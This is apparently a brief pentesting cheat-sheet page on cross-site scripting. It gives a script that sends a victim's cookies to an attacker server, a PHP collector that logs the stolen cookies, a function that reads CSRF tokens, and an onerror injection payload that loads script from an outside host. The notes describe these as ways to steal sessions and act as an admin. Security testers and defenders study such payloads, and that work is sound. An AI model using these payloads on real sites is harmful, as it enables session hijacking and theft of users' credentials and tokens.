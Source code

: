 ## `Essence`
- Within certain restrictions, driving victim to execute any JavaScript.

## `Exploit`
- obtain sensitive information
  - cookie
```html
<script>newImage().src="http://attacker.server/get.php?cookie="+document.cookie;</script>
```
```php
<?php
$ck =$_GET['cookie'];
error_log("$ck\n",3,"cookie.txt");
?>
```
  - token: AccessToken, CSRFToken
```javascript
function getcsrftoken(){
fetch("/api/v1/getToken",
{
    headers: {
      'Accept': 'application/json',
      'Content-Type': 'application/json'
    },
    method: "POST",
    body: JSON.stringify({a: 1, b: 2})
})
// .then(function(res){ console.log(res) })
.then(e=>e.json())
.then(e=>console.log(window.csrfToken=e.data.csrfToken))
}

<!-- same origin-->
```
- request certain special service
  - Combine with CSRF: admin

## `Payload`
```javascript
1" onerror=s=createElement('script');body.appendChild(s);s.src='//x0.nz/nQqS';
```

## `Reference`
- [xss-All-in-one](https://github.com/carlospolop/hacktricks/tree/master/pentesting-web/xss-cross-site-scripting)  @hacktricks
- 
